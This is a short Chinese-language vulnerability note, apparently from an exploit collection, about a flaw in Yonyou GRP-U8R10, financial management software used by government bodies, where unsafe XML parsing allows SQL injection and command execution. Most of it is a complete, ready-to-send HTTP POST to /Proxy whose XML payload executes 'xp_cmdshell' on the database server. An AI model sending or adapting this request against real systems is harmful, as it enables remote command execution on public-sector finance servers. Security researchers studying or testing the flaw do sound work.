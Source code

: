 ## 0x00 漏洞介绍

   用友GRP-U8R10行政事业财务管理软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域最专业的政府财务管理软件。该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行。
   
   ## 漏洞验证
 
 
```
   
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET> 

```
